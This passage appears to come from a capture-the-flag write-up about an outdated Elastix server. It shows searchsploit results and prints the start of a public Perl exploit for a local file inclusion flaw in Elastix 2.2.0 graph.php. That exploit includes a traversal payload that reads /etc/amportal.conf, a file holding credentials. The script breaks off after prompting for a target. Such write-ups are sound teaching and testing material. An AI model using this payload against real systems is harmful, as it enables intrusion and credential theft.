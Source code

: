 The date on the files are an indication we have an old Elastix installation.
Searchsploit show us the vulnerable releases of Elastix:

```
user@kali:~$ searchsploit elastix 
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                              | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities            | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                   | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                  | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                 | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution             | php/webapps/18650.py
------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The graph.php Local File Inclusion exploit is here below:

```
#source: https://www.securityfocus.com/bid/55078/info

#Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

#An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

#Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
```